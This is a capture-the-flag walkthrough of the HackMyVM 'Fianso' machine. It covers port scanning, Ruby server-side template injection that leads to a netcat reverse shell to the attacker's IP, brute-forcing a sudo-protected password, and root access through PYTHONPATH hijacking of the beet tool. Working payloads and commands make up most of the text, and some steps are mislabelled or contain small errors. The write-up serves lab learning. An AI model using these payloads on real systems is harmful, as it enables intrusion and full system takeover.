

# Fianso - Creator : Cromiphi 

# Net-Discovery (finding machine ip)
```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/fianso]
└─$ fping -ag 192.168.1.1/24 2>/dev/null                             
192.168.1.1
192.168.1.2
192.168.1.103
192.168.1.104
```
```
Machine ip found by execute above command : 192.168.1.104 
lets find some ports .
```

# Nmap
```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/fianso]
└─$ nmap -A -sC -sV  -p-  192.168.1.104              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-17 17:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.0057s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 ee:71:f4:ad:a0:71:e1:35:19:86:ab:c8:e6:be:36:17 (RSA)
|   256 40:1c:c3:da:83:d7:2f:60:cb:12:47:3b:02:67:04:14 (ECDSA)
|_  256 1a:69:a7:f9:dc:a5:49:ff:d2:7d:ce:45:97:6d:8a:b9 (ED25519)
8000/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
|_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

# Discover PORT 8000

```
As u can see we got Ruby programming laguage let keep this in mind .

website just put the string  , so it might be a Server Side Template Injection vuln
 
https://github.com/swisskyrepo/PayloadsAllTheThings
```
# SSRF 
``` 
we know that the author made site with ruby so we should look for some ruby commands to make RCE to find a LFI 
```
```
#{ 7 * 7 }
Result : Hello 49 !
WORKED :)
```
```bash
nc -nlvp 1234

```
```
RCE COMMAND 
#{ %x|env| }
replace env with ur shell 
#{ %x|nc -e /bin/bash 192.168.1.103 1234| }
```
# stable the shell 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
sofiane@fianso:/$ # here press ctrl and C  
stty raw -echo ;fg
```

# PRIV ESC - ROOT 
```bash
sofiane@fianso:/$ sudo -l
Matching Defaults entries for sofiane on fianso:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sofiane may run the following commands on fianso:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/harness

```
## check harnesss
```bash
clear -x
pass=$(</opt/passwordBox/password)
info="$(hostname):$(whoami):$pass" 
conf=/opt/config.conf

#touch & chmod & echo instead echo & chmod for race condition protection from user. 
touch $conf
chmod 700 $conf
echo $info > $conf

echo -e "\nAuthentication to manage music collection.\n"
echo -e "\n$(date "+Date: %D")\nUser: ${info:7:4}\nHost: ${info%%:*}\n"

read -ep "Master's password: " passInput
if [[ $passInput == $pass ]] ; then 
echo "sofiane ALL=(ALL:ALL) NOPASSWD:SETENV: /usr/bin/beet " >> /etc/sudoers 
echo -e "Sudo rights granted !\n"
else
echo -e "Wrong password\n" && exit 1
fi

```

```
its a bsah script that make a config file and check a password that we cant access to it 
if we got the correct password  we can execute  beet command with sudo priv 
so lets crack it
======================================================
for crack the password we can import rockyou password
to our machine to crack it 
but it has a problem . config length is 43 byte 
it means 43 charchter 
config  file be like : 
fianso:root:password = 43
if subtitute the fianso:root: = 12 
43 - 12 = 31  and there is a EOL symbol too  so 31 -1 =30
password length is 30 character
we should grep all the 30 character passwords in rockyou.txt to crack it 

```
## Custom passlist
```bash
grep -E '\b\w{30}\b' > Newpasslist.txt
```
## transfer to machine 
```bash
# at your machine go to folder that contain your custom passlist and run below command :
python -m http.server 80

# and on the ctf machine get the passlist with this command :
wget http://iplocalmachine/passlist.txt
sofiane@fianso:/opt$ wget 192.168.1.103/qwe.txt
```
## Crack the password
```bash
for i in $(cat qwe.txt);do echo i | sudo /bin/bash /opt/harness ; done 
```

```bash
sofiane@fianso:/tmp$ sudo -l
Matching Defaults entries for sofiane on fianso:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sofiane may run the following commands on fianso:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/harness
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/beet
```
## beet  - checking file 
```bash
sofiane@fianso:/tmp$ cat /bin/beet 
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'beets==1.4.9','console_scripts','beet'
__requires__ = 'beets==1.4.9'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('beets==1.4.9', 'console_scripts', 'beet')()
    )
```
```we can change the python path and re python lib to run shell and abuse it lets see
```
## Path hihijacking
```bash
sofiane@fianso:/tmp$ cd /tmp
sofiane@fianso:/tmp$ touch re.py
sofiane@fianso:/tmp$ cat re.py 
import os
os.system("/bin/bash -i ")
sofiane@fianso:/tmp$ sudo PYTHONPATH=/tmp/ /bin/beet
root@fianso:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

